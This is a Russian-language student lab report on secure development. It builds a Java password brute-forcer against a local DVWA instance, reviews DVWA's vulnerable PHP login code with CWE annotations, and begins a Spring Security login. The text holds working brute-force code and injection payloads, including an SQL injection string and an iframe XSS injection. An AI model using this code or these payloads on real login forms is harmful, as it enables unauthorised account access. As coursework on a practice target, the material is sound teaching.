 # SDLC_Lab_3
Практика №3 по "Разработке безопасного программного обеспечения"

1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

  Для перебора паролей для начала необходимо размернуть приложение DVWA. Развернем его в Docker, для этого необходимо перейти в папку /DVWA-master и выполнить команду `docker compose up` в терминале. \
  ![Поднимаем DVWA](imgs/dvwa_up.png) \
  Перейдем по адресу `localhost:4280` в браузере. \
  ![Переходим на localhost:4280](imgs/dvwa_visit.png) \
  Перейдем на форму, которая является переборщика. \
  ![Переходим на форму](imgs/dvwa_form_visit.png) \
  Выполним успешный ввод данных. \
  ![Успешный ввод](imgs/dvwa_form_success.png) \
  Обратим внимание на сообщение, которое выводится при успешном вводе, а также на то, в какой форме производится запрос.\
  ![Сообщение об успехе](imgs/dvwa_success_message.png) ![Форма запроса](imgs/dvwa_query_form.png) \
  Выполним неудачный ввод данных и так же обратим внивание на сообщение. \
  ![Неудачный ввод](imgs/dvwa_form_fail.png) ![Сообщение о провале](imgs/dvwa_fail_message.png) \
  На основе полученной информации разработаем переборщик паролей на языке программирования Java. Программа будет работать в многопоточном режиме. Для перехода к форме, которую необходимо взломать необходимо авторизоваться на сайте. Напишем для этого функцию.
  ```Java
        private void loginToDVWA() throws IOException {
            String loginPageUrl = "http://localhost:4280/login.php";
            String username = "admin";
            String password = "password";
            String csrfToken;

            Request loginPageRequest = new Request.Builder()
                .url(loginPageUrl)
                .get().build();

            try (Response response = client.newCall(loginPageRequest).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                String substringForBeginInd = "name='user_token' value='";
                int begInd = html.indexOf(substringForBeginInd);
                int endInd = html.indexOf("' />\r\n\r\n\t</form>");
                csrfToken = html.substring(begInd + substringForBeginInd.length(), endInd);
            }

            RequestBody formBody = new FormBody.Builder()
                .add("username", username)
                .add("password",  password)
                .add("Login", "Login")
                .add("user_token", csrfToken)
                .build();
            Request loginRequest = new Request.Builder()
                .url(loginPageUrl)
                .post(formBody)
                .build();

            try (Response response = client.newCall(loginRequest).execute()) {
                assert response.body() != null;
            }
        }
```
  Алгоритм программы будет выполнять попытку аутентификации по адресу, который был обнаружен раннее `http://localhost:4280/vulnerabilities/brute/?username=admin&password=%s&Login=Login`. Переборщик анализирует html, который приходит в ответ и ищет сообщение об успешном входе или провале. Функция для попытки аутентификации выглядит следующим образом:
  ```Java
private boolean makeAttemptToLogin(String password) throws IOException {
            String loginPage = BASE_URL + "/brute/?username=admin&password=%s&Login=Login"
                .formatted(password);

            Request loginAttempt = new Request.Builder()
                .url(loginPage)
                .get()
                .build();

            try (Response response = client.newCall(loginAttempt).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                if (html.contains("Username and/or password incorrect.")) {
                    return false;
                } else if (html.contains("Welcome to the password protected area admin")) {
                    return true;
                } else {
                    Thread.sleep(2000);
                    makeAttemptToLogin(password);
                    return false;
                }
            } catch (InterruptedException e) {
                throw new RuntimeException(e);
            }
        }
```
Пароли извлекаются из файла и поочереди используются в запросах. Запустим переборщик. \
![Запуск перебора DVWA](imgs/dvwa_brute_start.png) \
Таким образом переборщик справился за 21 секунду. \
![Финиш перебора DVWA](imgs/dvwa_brute_finish.png)

2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных cwe.mitre.org)

Проанализируем код и в комментариях укажем слабые места.
```PHP
<?php

if( isset( $_GET[ 'Login' ] ) ) {

	$user = $_GET[ 'username' ];

	$pass = $_GET[ 'password' ];
    //CWE-327 Use of a Broken or Risky Cryptographic Algorithm. Не рекомендуется использование таких старых алгоритмов хеширования как MD4, MD5, SHA1, DES, так как их значительно легче сломать, чем современные
	$pass = md5( $pass ); 

    //CWE-89 'SQL Injection'. В username можно ввести "admin' OR '1'='1", что позволит войти с любым паролем
	$query  = "SELECT * FROM `users` WHERE user = 'admin' AND password = '$pass';";
    //CWE-200 Exposure of Sensitive Information to an Unauthorized Actor. В случае ошибки выполнения запроса пользователю выводится фрагмент внутреннего устройства кода, что может быть использовано злоумышленниками
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {

		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

        //CWE-79 'Cross-site Scripting'. Прямое использование значения в html разметке без предварительной обработки может привести к внедрению html тегов пользователями на веб-странице.
        //Например, в комбинации с CWE-89 в страницу можно внедрить плеер из Яндекс Музыки введя в username: admin' OR '<iframe frameborder="0" allow="clipboard-write" style="border:none;width:100%;height:210px;" width="100%" height="210" src="https://music.yandex.ru/iframe/track/71237781/12115632">Слушайте <a href=\'https://music.yandex.ru/album/12115632/track/71237781\'>No Gods</a> — <a href=\'https://music.yandex.ru/artist/5704222\'>FREE FLOW FLAVA</a> на Яндекс Музыке</iframe>
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "<img src=\"{$avatar}\" />";
	}
	else {

		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```

3. Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Система авторизации должна использовать запросы GET с параметрами, аналогичными из задания bruteforce dvwa.

Разработаем систему авторизации с использованием Java Spring MVC. Конфигурация Spring Security выглядит следующим образом
```Java
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        return http
            .authorizeHttpRequests(authorizationManagerRequestMatcherRegistry -> authorizationManagerRequestMatcherRegistry
                .requestMatchers("/login").permitAll()
                .requestMatchers("/img/**").permitAll()
                .anyRequest().authenticated())
            .formLogin(customizer -> customizer
                .loginPage("/login")
                .permitAll())
            .csrf(AbstractHttpConfigurer::disable)
            .build();
    }
```
